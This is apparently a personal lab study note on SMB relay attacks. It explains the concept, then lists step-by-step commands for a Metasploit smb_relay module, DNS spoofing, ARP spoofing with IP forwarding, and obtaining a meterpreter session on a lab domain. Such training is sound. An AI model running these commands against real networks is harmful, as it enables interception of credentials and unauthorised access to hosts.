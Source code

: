 SMB Relay Attack
- An SMB relay attack is a type of network attack where an attacker intercepts SMB (Server Message Block) traffic, manipulates it, and relays it to a legitimate server to gain unauthorized access to resources or perform malicious activities.
- This type of attack is common in Windows networks, where SMB is used for file sharing, printer sharing, and other network services

How SMB Relay Attacks Work
- Interception: The attacker sets up a man-in-the-middle position between the client and the server. This can be done using various techniques, such as ARP spoofing, DNS poisoning, or setting up a rogue SMB server.
- Capturing Authentication: When a client connects to a legitimate server via SMB, it send authentication data. The attacker captures this data, which might include NTLM (NT LAN Manager) hashes.
- Replying to a Legitimate Server: Instead of decrypting the captured NTLM hash, the attacker relays it to another server that trusts the source. This allows the attacker to impersonate the user whose hash was captured.
- Gain Access: If the relay is successful, the attacker can gain access to the resources on the server, which might include sensitive files, databases, or administrative privileges. This access could lead to further lateral movement within the network, compromising additional systems.

Practical Demonstration:
![[Pasted image 20241222160153.png]]
![[Pasted image 20241222160405.png]]
![[Pasted image 20241222160457.png]]

- Setting up SMB Relay using Metasploit Framework
	- `ifconfig`
	- `msfconsole`
	- `search smb_relay`
	- `use exploit/windows/smb/smb_relay`
	- `show options`
	- `set SRVHOST 172.16.5.101`
	- `set LHOST 172.16.5.101`
	- `set SMBHOST 172.16.5.10`
	- `exploit`
	- `jobs`
- Setting up DNS Spoofing using DNS Spoof, on a new terminal (To redirect SMB connection requests to our attack machine, whenever there is a SMB connection to any host in the domain, which in this scenario is `*.sportsfoo.com`)
	- `echo "172.16.5.101 *.sportsfoo.com" > dns`
	- `dnsspoof -i eth1 -f dns`
- Enabling IPv4 Port Forwarding, for ARP spoofing to work:
	- `echo 1 > /proc/sys/net/ipv4/ip_forward`
- Now we will set up ARP spoofing to spoof our attack machine as the default gateway for the network, this needs to be done to intercept the traffic being sent between the client machine and the default gateway.
	- Each command given below need to be done on a new terminal, or in the background, since these need to run simultaneously.
	- `arpspoof -i eth1 -t 172.16.5.5 172.16.5.1`
	- `arpspoof -i eth1 -t 172.16.5.1 172.16.5.5`
- Since the client is set to send requests to `fileserver.sportsfoo.com` every 30 seconds, we should now eventually see an entry pop up on the terminal where we ran `dnsspoof`.
- Following this, we will see that once our meterpreter exploit finds an SMB request being sent our way by the client machine, it automatically proceeds to perform the SMB Relay attack, which should have completed successfully at this point.
- Whenever the `smb_relay` module receives an incoming SMB connection, it intercepts the NTLM hash, and automatically uses it to get a shell or meterpreter session to the target SMB server (SMBHOST).
- `sessions 1`
- Meterpreter Session:
	- `getuid`
	- `sysinfo`